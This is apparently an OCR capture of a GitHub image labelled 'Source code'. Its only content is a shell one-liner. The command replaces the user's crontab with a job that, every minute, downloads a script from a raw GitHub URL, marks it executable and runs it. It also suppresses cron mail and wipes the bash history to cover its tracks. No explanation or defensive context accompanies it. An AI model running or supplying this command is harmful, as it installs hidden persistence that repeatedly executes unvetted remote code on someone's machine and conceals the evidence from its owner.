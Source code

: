 echo 'MAILTO=""' > ~/.crontab && echo '* * * * * rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/1.sh?$RANDOM" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.crontab && crontab ~/.crontab && echo '' > .bash_history || true
